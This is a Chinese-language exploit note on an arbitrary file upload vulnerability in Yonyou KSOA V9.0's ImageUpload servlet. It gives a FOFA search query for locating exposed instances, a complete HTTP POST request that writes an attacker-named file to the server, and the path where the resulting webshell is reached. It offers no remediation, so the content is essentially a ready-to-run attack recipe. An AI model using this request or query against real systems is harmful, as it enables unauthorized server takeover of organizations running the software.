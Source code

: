 # 用友 KSOA V9.0任意文件上传漏洞

## 漏洞描述

用友时空KSOA是建立在SOA理念指导下研发的新一代产品,是根据流通企业前沿的IT需求推出的统一的IT基础架构,它可以让流通企业各个时期建立的IT系统之间彼此轻松对话。用友时空KSOA平台ImageUpload处存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

## 漏洞影响

```
用友 KSOA V9.0
```

## FOFA

```
app="用友-时空KSOA"
```

## 漏洞复现

登录页面

![image-20230607223009983](../../../../Note/images/image-20230607223009983.png)

看下面EXP是有Cookie的，不知道是前台还是后台任意文件上传，注意一下。

EXP

```
POST /servlet/com.sksoft.bill.ImageUpload?filename={{文件名随便起}}&filepath=/ HTTP/1.1
Host:ip:port
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D7B9314CC6B287CBD4D4F700211212E3
Connection: close
Content-Length: 7

1234567
```



![image-20230607223120987](../../../../Note/images/image-20230607223120987.png)

Webshell地址：http:*//ip/pictures/{{文件名随便起}}*

![image-20230607223150663](../../../../Note/images/image-20230607223150663.png)